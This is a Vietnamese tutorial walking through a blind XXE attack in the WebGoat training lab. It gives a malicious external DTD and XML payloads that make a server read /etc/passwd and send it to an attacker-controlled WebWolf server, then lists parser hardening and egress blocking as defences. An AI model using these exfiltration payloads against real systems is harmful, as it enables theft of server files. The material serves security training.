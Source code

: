 ```yaml
---
title: 1.10 | XXE
slug: XXE-10
description: Bài viết này sẽ hướng dẫn cách tấn công XXE trên WebGoat 2023.8
image: https://tiennhm.github.io/img/docs/database.jpg
sidebar_position: 1
# sidebar_class_name: hidden
tags: 
    - web-security
    - webgoat
    - security-misconfiguration
    - xxe
    - webgoat-2023.8
keywords: [web-security, webgoat, security-misconfiguration, xxe, webgoat-2023.8]
enableComments: true # for Gisqus comments, set to true
draft: false # set to true to hide this post from the site
---
```


> **Blind XXE Attack**  

## **1. Giới thiệu về Blind XXE**  

**Blind XXE (Blind XML External Entity Injection)** là một biến thể của **XXE** nhưng không trả kết quả trực tiếp ra response của server. Điều này xảy ra khi:  

- **Kết quả không được hiển thị trên trang web** (do output bị ẩn).  
- **Nội dung đọc được chứa ký tự XML không hợp lệ**, khiến parser gặp lỗi.  
- **Firewall hoặc cơ chế bảo vệ ngăn chặn phản hồi trực tiếp**.  

💡 **Làm thế nào để kiểm tra xem XXE có thành công hay không?**  
👉 **Gửi dữ liệu đến một server do kẻ tấn công kiểm soát**.  

**Ví dụ:**  
- Gửi một request **ping đến WebWolf**.  
- Gửi nội dung file **ra ngoài** qua HTTP/DNS request.  


## **2. Cách thực hiện Blind XXE**  

### **1️⃣ Chuẩn bị máy chủ nhận dữ liệu**  
Kẻ tấn công cần có một server để nhận dữ liệu, ví dụ: **WebWolf**.  
WebWolf là công cụ được tích hợp với WebGoat để thực hiện các bài tập tấn công.  

👉 Truy cập WebWolf tại:  
```
http://127.0.0.1:9090/WebWolf/home
```
🔥 **Lưu ý:** Nếu không dùng WebWolf, có thể thay thế bằng một server bất kỳ mà kẻ tấn công kiểm soát.  


### **2️⃣ Tạo file DTD độc hại trên WebWolf**  
Kẻ tấn công tạo file `attack.dtd` trên WebWolf với nội dung:  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM "http://127.0.0.1:9090/WebWolf/landing">
```

🛠 **Giải thích**:  
- **`ping`** là một entity tham chiếu đến URL của WebWolf.  
- Nếu server mục tiêu xử lý **DTD từ xa**, nó sẽ gửi request đến WebWolf, xác nhận rằng **XXE Injection hoạt động**.  


### **3️⃣ Gửi Payload Blind XXE**  
Sau khi chuẩn bị xong `attack.dtd`, ta gửi XML sau đến server mục tiêu:  

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
    <!ENTITY % remote SYSTEM "http://127.0.0.1:9090/WebWolf/attack.dtd">
    %remote;
]>
<comment>
  <text>test&ping;</text>
</comment>
```

🛠 **Giải thích**:  
- DTD từ xa (`attack.dtd`) được nạp vào server mục tiêu.  
- `&ping;` sẽ làm server gửi request đến **WebWolf**.  

🔥 **Kết quả mong đợi**:  
- Nếu server dễ bị tấn công, nó sẽ gửi một request HTTP đến **WebWolf**.  
- WebWolf sẽ ghi lại request này trong **Incoming Requests**.  


## **3. Kiểm tra trên WebWolf**  

Mở WebWolf và truy cập **Incoming Requests**. Nếu XXE Injection thành công, ta sẽ thấy log:  

```json
{
  "method" : "GET",
  "path" : "/landing",
  "headers" : {
    "request" : {
      "user-agent" : "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"
    }
  },
  "parameters" : {
    "test" : [ "HelloWorld" ]
  },
  "timeTaken" : "1"
}
```

📌 **Kết quả này cho thấy server đã gửi request đến WebWolf, xác nhận rằng XXE Injection có thể thực hiện được.**  


## **4. Ứng dụng Blind XXE để đánh cắp dữ liệu**  

Sau khi xác nhận **Blind XXE hoạt động**, kẻ tấn công có thể:  
1. **Đọc file quan trọng trên server** (VD: `/etc/passwd`).  
2. **Gửi nội dung file ra ngoài** qua HTTP/DNS request.  

🔥 **Ví dụ: Đọc file `/etc/passwd` và gửi nội dung đến WebWolf**  

1️⃣ **Cập nhật file `attack.dtd` trên WebWolf:**  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY exfiltrate SYSTEM 'http://127.0.0.1:9090/WebWolf/log?data=%file;'>">
%eval;
```

2️⃣ **Gửi XML payload đến server mục tiêu:**  

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
    <!ENTITY % remote SYSTEM "http://127.0.0.1:9090/WebWolf/attack.dtd">
    %remote;
]>
<comment>
  <text>&exfiltrate;</text>
</comment>
```

📌 **Kết quả mong đợi:**  
- Server đọc nội dung `/etc/passwd`.  
- Gửi dữ liệu này đến WebWolf thông qua request HTTP.  
- Kẻ tấn công có thể xem dữ liệu trong WebWolf logs.  


## **5. Cách phòng chống Blind XXE**  

### **1️⃣ Tắt xử lý DOCTYPE và ENTITY trong XML Parser**  
Trong Java:  
```java
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
factory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
DocumentBuilder builder = factory.newDocumentBuilder();
```

### **2️⃣ Giới hạn quyền truy cập mạng từ XML Parser**  
Nếu ứng dụng có quyền hạn chế, có thể chặn **outbound HTTP requests** để ngăn dữ liệu bị gửi ra ngoài.  

Ví dụ trong **Docker** hoặc **Kubernetes**, có thể cấu hình firewall:  
```bash
iptables -A OUTPUT -p tcp --dport 9090 -j DROP
```

### **3️⃣ Sử dụng JSON thay vì XML**  
Nếu ứng dụng không cần XML, hãy dùng JSON để tránh lỗ hổng XXE:  
```json
{
  "message": "Hello, world!"
}
```

### **4️⃣ Kiểm tra log HTTP để phát hiện XXE bất thường**  
Nếu có request đáng ngờ từ hệ thống gửi đến server không xác định, có thể kiểm tra **log HTTP request** để phát hiện dấu hiệu của XXE.  


## **6. Kết luận**  

- **Blind XXE không hiển thị kết quả trực tiếp** nhưng vẫn có thể **gửi dữ liệu ra ngoài**.  
- **Cách kiểm tra Blind XXE**:  
  1. Sử dụng WebWolf để nhận request.  
  2. Gửi dữ liệu ra ngoài qua HTTP/DNS request.  
- **Kẻ tấn công có thể đánh cắp dữ liệu bí mật** như `/etc/passwd`.  
- **Cách phòng chống**:  
  1. Vô hiệu hóa ENTITY trong XML Parser.  
  2. Chặn HTTP request không mong muốn.  
  3. Sử dụng JSON thay cho XML.  

